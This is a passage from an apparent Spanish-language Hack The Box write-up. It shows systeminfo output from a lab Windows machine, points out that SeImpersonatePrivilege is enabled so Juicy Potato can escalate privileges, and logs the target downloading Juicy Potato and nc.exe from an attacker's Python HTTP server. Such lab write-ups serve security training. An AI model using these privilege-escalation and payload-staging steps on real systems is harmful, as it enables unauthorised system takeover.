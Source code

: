 ```bash
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 
System Boot Time:          29/8/2021, 1:15:26 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.458 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.519 MB
Virtual Memory: In Use:    622 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::45f:18cb:2ab3:a6b2
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

C:\Users>
```

Observamos dos vías potenciales para escalar privilegios en el sistema, el usuario presenta habilitado *SeImpersonatePrivilege* por lo que con la herramienta [Juicy Potato](https://github.com/ivanitlearning/Juicy-Potato-x86/releases/tag/1.2) podemos escalar privilegios. 

Nos descargamos el archivo, lo subimos al sistema junto con el archivo **nc.exe** compartiendo un servidor con python y descargandolo en *C:\\Windows\\Temp\\Privesc*.

```bash
❯ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.5 - - [28/Aug/2021 17:42:06] "GET /Juicy.Potato.x86.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 17:42:09] "GET /Juicy.Potato.x86.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 18:02:44] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.5 - - [28/Aug/2021 18:02:47] "GET /nc.exe HTTP/1.1" 200 -
```
